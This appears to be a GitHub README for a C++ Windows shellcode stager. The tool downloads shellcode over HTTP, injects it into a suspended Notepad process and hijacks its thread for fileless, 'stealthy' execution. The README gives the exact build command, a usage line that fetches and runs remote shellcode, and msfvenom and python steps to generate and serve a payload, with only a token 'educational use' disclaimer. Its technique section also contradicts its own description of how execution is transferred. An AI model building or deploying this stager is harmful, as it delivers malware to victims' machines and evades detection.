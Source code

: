 A simple Windows shellcode loader that downloads shellcode from a specified HTTP URL and injects it into a suspended process (Notepad.exe) using thread context hijacking.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAllocEx` in a suspended process
- Injecting shellcode into the suspended process's memory
- Hijacking the main thread’s context to execute shellcode (fileless execution)
- Using the `WinINet` API for stealthy network communication

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**Suspended-Process-Stager.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ Suspended-Process-Stager.cpp -o Suspended-Process-Stager.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
Suspended-Process-Stager.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
Suspended-Process-Stager.exe http://127.0.0.1/shellcode.bin
```
